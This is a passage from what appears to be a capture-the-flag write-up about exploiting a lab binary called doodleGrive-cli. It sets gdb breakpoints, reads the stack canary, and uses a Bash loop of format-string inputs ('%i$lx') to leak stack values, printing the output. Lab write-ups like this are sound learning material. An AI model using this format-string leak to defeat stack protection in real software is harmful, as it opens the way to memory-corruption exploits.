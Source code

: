 
That `printf` call takes place at the 0x40229c. The stack canary is set at
0x402202. I’ll break at both of those in `gdb`:

    
    
    gdb-peda$ b *0x402202
    Breakpoint 1 at 0x402202
    gdb-peda$ b *0x40229c
    Breakpoint 2 at 0x40229c 
    

I’ll run to the first break, and then step to see the canary get set in RAX
and then pushed to the stack. In this run, its set as:

    
    
    RAX: 0xa70f7a4603600e00 
    

I’ll run to the next break, putting in whatever as a username. When it gets
there, I’ll look at the stack:

    
    
    gdb-peda$ x/16g $rsp
    0x7fffffffda80: 0x0000786c24353125      0x0000000000000002
    0x7fffffffda90: 0x00000000004c00e0      0x000000000040339c
    0x7fffffffdaa0: 0x00007fffffffdc08      0x0000000000400518
    0x7fffffffdab0: 0x0000000000403320      0x00000000004033c0
    0x7fffffffdac0: 0x0000000000000000      0xa70f7a4603600e00
    0x7fffffffdad0: 0x0000000000403320      0x0000000000402b50
    0x7fffffffdae0: 0x0000000000000000      0x0000000100000000
    0x7fffffffdaf0: 0x00007fffffffdc08      0x00000000004021ed
    

The space for input is small, but I can read the i-th word on the stack with
`%i$lx`, where `i` is a number.

I’ll use a simple Bash loop to try different offsets:

    
    
    oxdf@hacky$ for i in $(seq 1 30); do echo -n "$i: "; echo "%${i}"'$lx' | ./doodleGrive-cli | grep "Enter password for" | cut -d' ' -f4; done
    1: 10:
    2: 0:
    3: 0:
    4: 7ffc322aa7b0:
    5: 13:
    6: 786c243625:
    7: 2:
    8: 4c00e0:
    9: 40339c:
    10: 7ffe4d8f3f48:
    11: 400518:
    12: 403320:
    13: 4033c0:
    14: 0:
    15: 7e298c924cb0a00:
    16: 403320:
    17: 402b50:
    18: 0:
    19: 100000000:
    20: 7fff573f1318:
    21: 4021ed:
    22: 0:
    23: 1900000000:
    24: 21:
    25: 2000000000:
    26: 0:
    27: 0:
    28: 0: